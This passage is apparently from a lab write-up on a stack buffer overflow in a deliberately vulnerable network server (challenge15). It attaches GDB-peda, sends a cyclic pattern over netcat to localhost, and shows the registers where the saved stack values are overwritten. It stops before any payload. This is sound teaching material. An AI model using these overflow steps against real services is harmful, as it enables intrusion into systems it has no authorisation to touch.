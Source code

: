 The overflow is happening at the `strcpy()`.

## Start server

We start the vulnerable server in the background, and attach it with GDB to the pid:

```
root@hlUbuntu64:~/challenges/challenge15# ./challenge15 &
[1] 17147
root@hlUbuntu64:~/challenges/challenge15# Listen on port: 5001

root@hlUbuntu64:~/challenges/challenge15# echo $!
17147
root@hlUbuntu64:~/challenges/challenge15# gdb -q
gdb-peda$ attach 17147
[...]
gdb-peda$ set follow-fork-mode child
gdb-peda$
```

Note that the server is paused right now, because we want to  issue another GDB
command. But we could continue it with `c`.

## Find offset

As first step, we can create a peda pattern, which makes it easier for us to identify
the offset to SIP. It should be bigger that the destination buffer (256 bytes in our case).  
```
gdb-peda$ pattern create 300
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%'
```

We attached GDB to the server process, which paused the process. We also told GDB to follow children.
Lets continue the process:
```
gdb-peda$ c
Continuing.
```

The server is now unpaused. Lets send the peda pattern to the server:
```
root@hlUbuntu64:~/challenges/challenge15# echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%' | nc localhost 5001
```

We have the following output in GDB:

```
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x73 ('s')
RDX: 0x6
RSI: 0x400c9e --> 0x20746e65696c4300 ('')
RDI: 0x7fffffffdff6 ("sAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A"...)
RBP: 0x2541322541632541 ('A%cA%2A%')
RSP: 0x7fffffffdbd8 ("HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%\n")
RIP: 0x4009c2 (<handleData+92>: ret)
R8 : 0x0
R9 : 0x138
```